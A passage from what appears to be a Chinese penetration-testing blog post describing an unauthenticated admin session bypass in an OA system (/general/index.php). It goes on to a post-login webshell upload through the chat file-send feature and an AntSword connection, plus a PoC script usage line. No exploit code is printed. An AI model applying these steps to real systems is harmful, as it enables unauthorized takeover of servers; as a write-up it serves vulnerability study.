将直接返回 admin 认证的 SESSION 到当前的这时可以带着当前的 SESSION 到 / general/index.php 中，直接是 admin 管理员用户





这个时候我们可以去抓包进行复现刚才的思路

首先更改登录包进行获取 PHPSESSID



接着把 PHPSESSID 放入到 / general/index.php 目录下的页面进行未经授权登录





**6、进阶 - 后台 GETSHELL**

找到菜单中的附件管理，如果没有存储目录的需要自己添加


之后找到组织中的系统管理员，打开聊天窗口，我们发现有一个发送文件的地方，

而发送成功之后的文件会存储在我们刚才设置好的目录中


这里进行文件传输的时候我们可以进行抓包，我们发现存储的位置就是我们设置的目录


这个是我们发现会更改文件的命名，但是我们抓包的时候发送数据包时会返回重命名文件和路径

  
这个时候我们是否可以直接传输小马，试一试


接着我们就可以直接上蚁剑进行连接啦

  
成功 getshell

有时候我们总会嫌弃手工注入太繁琐，这里我们依旧可以用脚本得到 PHPSESSID  
usage: python 3 poc.py -v {11,2017} -url TARGETURL


我们将得到的 PHPSESSID 直接放到 COOKIE 中，我们发现依旧是可以直接进行未授权登录的


**8、修复建议：**

更新官方发布补丁

部分还没测出来，后续补上

  

**回顾往期内容**

[实战纪实 | 一次护网中的漏洞渗透过程](http://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247488327&idx=1&sn=c6677ad2bc524802c79c91a8982c2423&chksm=fa686a36cd1fe3207916178ce750add0fe89e6e0b6bdae53f42429d71a259d53cb39db41a7f5&scene=21#wechat_redirect)

[面试分享 #哈啰 / 微步 / 斗象 / 深信服 / 四叶草](http://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247491501&idx=1&sn=70aae2e2f83d503ca6fad3c4f952bd6e&chksm=fa6866dccd1fefca9de95e8c4c42b81637de45b73319931fcd9e5fdc3752774ac306f76b53f6&scene=21#wechat_redirect)

[反杀黑客 — 还敢连 shell 吗？蚁剑 RCE 第二回合~](https://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247485574&idx=1&sn=d951b776d34bfed739eb5c6ce0b64d3b&chksm=fa6871f7cd1ff8e14ad7eef3de23e72c622ff5a374777c1c65053a83a49ace37523ac68d06a1&token=1892203713&lang=zh_CN&scene=21#wechat_redirect)
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

[防溯源防水表—APT 渗透攻击红队行动保障](https://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247487533&idx=1&sn=30e8baddac59f7dc47ae87cf5db299e9&chksm=fa68695ccd1fe04af7877a2855883f4b08872366842841afdf5f506f872bab24ad7c0f30523c&token=1892203713&lang=zh_CN&scene=21#wechat_redirect)
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

[实战纪实 | 从编辑器漏洞到拿下域控 300 台权限](https://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247487476&idx=1&sn=ac9761d9cfa5d0e7682eb3cfd123059e&chksm=fa687685cd1fff93fcc5a8a761ec9919da82cdaa528a4a49e57d98f62fd629bbb86028d86792&token=1892203713&lang=zh_CN&scene=21#wechat_redirect)
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------


扫码白嫖视频 + 工具 + 进群 + 靶场等资料


 **扫码白嫖****！**

 **还有****免费****的配套****靶场****、****交流群****哦！**

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
